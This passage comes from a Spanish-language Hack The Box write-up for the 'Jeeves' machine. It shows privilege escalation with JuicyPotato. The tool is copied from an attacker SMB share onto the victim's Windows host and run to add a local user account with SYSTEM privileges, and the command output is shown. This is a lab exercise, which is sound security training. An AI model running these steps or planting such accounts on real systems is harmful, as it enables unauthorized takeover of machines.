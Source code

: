 ```bash
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\Users\kohsuke\Desktop>
```

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/jeeves/img.png">
</p>

- Aquí puedes encontrarlo <https://github.com/ohpe/juicy-potato/releases/tag/v0.1>.

- Vamos a pasarlo ala maquina victima pero en la ruta `C:\Windows\Temp` y nos vamos a crear una carpeta para almacenarlo hay.

```bash
mkdir Prives

cd Prives
cd Prives

C:\Windows\Temp\Prives>
```

```bash
copy \\10.10.14.12\parrotsec\JuicyPotato.exe JuicyPotato.exe
        1 file(s) copied.

C:\Windows\Temp\Prives>
```

```bash
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Windows\Temp\Prives

07/03/2023  02:59 AM    <DIR>          .
07/03/2023  02:59 AM    <DIR>          ..
07/02/2023  09:50 PM           347,648 JuicyPotato.exe
               1 File(s)        347,648 bytes
               2 Dir(s)   2,407,399,424 bytes free

C:\Windows\Temp\Prives>
```

- Vamos a agregar un nuevo usuario.

```bash
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user miguel miguel123$! /add" -l 1337
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user miguel miguel123$! /add" -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Prives>
```

